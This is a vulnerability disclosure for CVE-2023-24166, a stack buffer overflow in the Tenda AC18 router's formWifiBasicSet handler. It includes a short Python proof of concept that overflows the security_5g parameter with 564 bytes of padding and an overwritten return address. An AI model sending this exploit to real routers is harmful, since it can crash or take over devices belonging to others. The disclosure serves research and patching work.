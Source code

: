 # **CVE-2023-24166**
Tenda AC18 Unauthorized stack overflow vulnerability

## **1. Affected version:**

Tenda ac18_kf_V15.03.05.19(6318_)_cn

## **2. Firmware download address**

<https://www.tenda.com.cn/download/detail-2683.html>

## **3. Vulnerability details**
![image](https://user-images.githubusercontent.com/65169560/212258478-ce2d24e8-e883-47de-8ca0-b6835191e520.png)

![image](https://user-images.githubusercontent.com/65169560/212258494-2402a992-6e8a-4057-be45-ec3d655a140e.png)

The function "formWifiBasicSet" contains a stack-based buffer overflow vulnerability. In the function, it reads in a user-provided parameter, and the variable is passed to the function without any length check, which may lead to overflow of the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution with carefully crafted overflow data.

## **4. Recurring vulnerabilities and POC**
```python
import requests
from pwn import *

url = 'http://x.x.x.x/goform/WifiBasicSet'
pl = 'a'*564+p32(0xdeadbeef)
data = {'security_5g':pl, 'hideSsid':'1', 'ssid':'1', 'security':'1', 'wrlPwd':'1', 'hideSsid_5g':'1', 'ssid_5g':'1', 'wrlPwd_5g': '1'}

requests.post(url, data=data)
```

## 5. Author

Drizzling_Sun @KRlab
